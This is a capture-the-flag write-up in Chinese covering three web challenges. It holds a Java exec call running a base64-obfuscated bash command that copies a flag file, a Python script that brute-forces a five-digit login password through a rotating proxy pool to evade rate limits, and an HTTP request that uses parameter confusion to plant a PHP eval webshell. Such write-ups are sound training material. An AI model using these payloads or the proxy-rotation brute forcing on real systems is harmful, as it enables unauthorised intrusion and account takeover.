

发现可控字符串，clone 完整的后端大项目下来搜索这个方法的实现，结果全局搜索搜不出来，从数据流路由找出 web 路由，

```plain
/algorithms/[InstanceName]/[AlgorithmName]/-/summary?c=[InstanceName]__[ProcessorName]

/algorithms/myproject/copySunsensor/-/summary?c=myproject__realtime
```



找到能够 RCE 的地方，但是远程不出网，jdk17 内存马写不来



起个 docker 找到静态目录



直接写入



```java
try {
    Runtime.getRuntime().exec("bash -c {echo,dGFjIC9mbGFnID4gL2J1aWxkL3F1aWNrc3RhcnQvdGFyZ2V0L3lhbWNzL2NhY2hlL3lhbWNzLXdlYi8xLnR4dA==}|{base64,-d}|{bash,-i}");
} catch (java.io.IOException e) {
    throw new RuntimeException(e);
}
```

## anime

在网上可以找到是原题，但是我没有池子，所以也是队友来解决的。

每ip每秒限制5次登陆访问，题目提示5位数字的密码，可以上ip池爆破

```python
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed
from tqdm import tqdm

with open('p.txt', 'r') as f:
    psa = [x.strip().split(':') for x in f.readlines()]
# print(psa)

target_url = "http://47.105.120.74:1001/login"

def filter_disabled_ips(psa):
    result = []
    for ps in tqdm(psa):
        proxyMeta = "http://%(host)s:%(port)s" % {
            "host": ps[0],
            "port": ps[1],
        }
        proxies = {
            "http": proxyMeta,
            "https": proxyMeta
        }
        res = requests.get(target_url, proxies=proxies)
        if res.status_code in [302, 200]:
            result.append(ps)
        else:
            print(ps, res.status_code, res.text)
    return result

# psa = filter_disabled_ips(psa)
# print(len(psa))

def login(password):
    username = "TTXSMcc"
    ps = psa[int(password) % len(psa)]
    proxyMeta = "http://%(host)s:%(port)s" % {
        "host": ps[0],
        "port": ps[1],
    }
    proxies = {
        "http": proxyMeta,
        "https": proxyMeta
    }
    data = {"username": username, "password": password}
    res = requests.post(target_url, data=data, proxies=proxies, allow_redirects=False)

    if res.status_code != 302:
        with open('failed.txt', 'a') as f:
            f.write(f"{password}\n")
        # print(password, res.status_code, res.text)
        return
    if "/login" in res.text:
        pass
    else:
        print(password, res.text)

def run(tasks):
    with ThreadPoolExecutor(max_workers=20) as executor:
        futures = [executor.submit(login, pas) for pas in tasks]
        for _ in tqdm(as_completed(futures), total=len(futures)):
            pass

if __name__ == '__main__':
    tasks = [f"{i:05d}" for i in range(100000)]
    # tasks = [x.strip() for x in open('failed.txt', 'r').readlines()]
    # open('failed.txt', 'w').write("")
    run(tasks)
```

写wp的时候爆破出密码是18149（交flag的时候是89195）



登陆后编辑个人资料，没找到flag



注册的时候发现用户名大小写不敏感，尝试将用户名改成全小写，拿到flag（可能是缓存机制的问题？）



## 日志系统

如果读取不到 flag，可能是权限问题

api.php 代码如下，修改了部分代码，保证能够在本地运行

```php
<?php
define('DIR', __DIR__);
  
$queryString = $_SERVER['QUERY_STRING'] ?? '';
if (empty($queryString)) {
    exit("未检测到任何 GET 参数。");
}
if (strpos($queryString, '%') !== false) {
    exit("非法请求：GET 参数中不允许包含 '%' 字符。");
}
$params = explode('&', $queryString);
$expectedOrder = ['timestamp[year]', 'timestamp[month]', 'timestamp[day]'];
$foundKeys = [];
$duplicates = [];
$values = [];

foreach ($params as $param) {
    $parts = explode('=', $param, 2);
    $key = urldecode($parts[0]);
    $value = isset($parts[1]) ? urldecode($parts[1]) : '';

    if (preg_match('/^timestamp[[a-zA-Z]+]$/', $key)) {
        if (in_array($key, $foundKeys)) {
            $duplicates[] = $key;
        } else {
            $foundKeys[] = $key;
        }
        $values[$key] = $value;
    }
}

$missing = array_diff($expectedOrder, $foundKeys);
$extra   = array_diff($foundKeys, $expectedOrder);

if (!empty($duplicates)) {
    exit("检测到重复的参数：" . implode(', ', array_unique($duplicates)));
}
if (!empty($missing)) {
    exit("缺少参数：" . implode(', ', $missing));
}
if (!empty($extra)) {
    exit("含有多余参数：" . implode(', ', $extra));
}
if ($foundKeys !== $expectedOrder) {
    exit("参数顺序错误，应为：" . implode(' → ', $expectedOrder) . "。当前为：" . implode(', ', $foundKeys));
}
foreach ($expectedOrder as $k) {
    if (!isset($values[$k]) || !ctype_digit($values[$k])) {
        exit("参数 {$k} 必须为纯数字，当前为：" . ($values[$k] ?? '未提供'));
    }
}
$content = $_POST['content'] ?? '';
if (trim($content) === '') {
    exit("未检测到 POST 内容（content）。");
}


$dir = DIR . '/upload';
if (!is_dir($dir)) mkdir($dir, 0777, true);

$year  = $_GET['timestamp']['year'];
$month = $_GET['timestamp']['month'];
$day   = $_GET['timestamp']['day'];
$filename = $dir."/".$year.$month.$day;
if (file_put_contents($filename, $content . PHP_EOL, FILE_APPEND | LOCK_EX) === false) {
    exit("写入文件失败");
}

echo "日志保存成功";
?>
```

看到最后进行参数拼接组合成文件，写入 webshell，

```php
foreach ($params as $param) {
  $parts = explode('=', $param, 2);
  $key = urldecode($parts[0]);
  $value = isset($parts[1]) ? urldecode($parts[1]) : '';

  if (preg_match('/^timestamp[[a-zA-Z]+]$/', $key)) {
    if (in_array($key, $foundKeys)) {
      $duplicates[] = $key;
    } else {
      $foundKeys[] = $key;
    }
    $values[$key] = $value;
  }
}
```

没有匹配大小写，所以可以参数混淆构造恶意文件名，本地测试下

```bash
php -S localhost:8000
```



```http
POST /api.php?timestamp[year]=2025&timestamp[month]=10&timestamp[day]=20&Timestamp[day]=20&timestamp[day]]=.php HTTP/1.1
Host: localhost:8000
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded

content=<?php @eval($_POST[1]);phpinfo();?>
```



后面还需要后渗透，https://xz.aliyun.com/news/10748 
